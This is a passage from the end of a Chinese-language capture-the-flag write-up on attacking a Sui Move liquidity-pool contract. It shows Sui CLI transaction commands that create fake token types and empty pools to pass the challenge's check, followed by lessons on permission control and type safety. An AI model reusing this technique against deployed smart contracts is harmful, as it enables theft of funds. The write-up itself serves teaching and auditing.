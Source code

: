 ```bash
  --assign pool_cap1 \
  --transfer-objects "[pool_cap1]" @${MY_ADDRESS} \
  --gas-budget 20000000

echo "Step 3: 创建假TOKEN3-TOKEN4池子"
sui client ptb \
  --move-call 0x2::coin::zero "<${ATTACK_PACKAGE}::attack::TOKEN3>" \
  --assign token3 \
  --move-call 0x2::coin::zero "<${ATTACK_PACKAGE}::attack::TOKEN4>" \
  --assign token4 \
  --move-call ${TARGET_PACKAGE}::pool::create_pool "<${ATTACK_PACKAGE}::attack::TOKEN3,${ATTACK_PACKAGE}::attack::TOKEN4>" @${POOLS_ID} 0 token3 token4 \
  --assign pool_cap2 \
  --transfer-objects "[pool_cap2]" @${MY_ADDRESS} \
  --gas-budget 20000000

echo "Step 4: 触发Flag"
sui client call --package $TARGET_PACKAGE --module pool --function is_solved \
  --args $POOLS_ID --gas-budget 20000000
```

## 学习要点

### 1. Sui Move类型系统的理解

- 泛型类型参数的使用
- 结构体的witness模式
- 类型安全的重要性

### 2. PTB的强大功能

- 可编程交易块允许复杂的操作组合
- 正确的语法对攻击成功至关重要
- 变量引用和对象传递

### 3. 动态字段的工作原理

- Sui的动态字段存储机制
- 键值生成和查找过程
- 类型擦除的安全隐患

## 总结

这次攻击成功利用了Sui Move合约中的多个设计缺陷，特别是权限控制错误和类型系统的不当使用。通过创建假代币结构体和空池子，巧妙地绕过了安全检查，最终获得了Flag。

关键成功因素：

1. **深入的代码分析** - 仔细阅读合约代码，发现多个漏洞
2. **正确的攻击策略** - 将多个漏洞组合使用
3. **技术实现能力** - 正确使用PTB和Sui CLI
4. **持续的调试** - 在遇到问题时不断调整方法

这个案例展示了智能合约安全审计的重要性，特别是在权限管理和类型安全方面需要格外谨慎。对于开发者来说，这提醒我们要：

- 仔细检查权限控制逻辑
- 使用完整的类型标识符
- 进行充分的安全测试
- 考虑各种边界情况


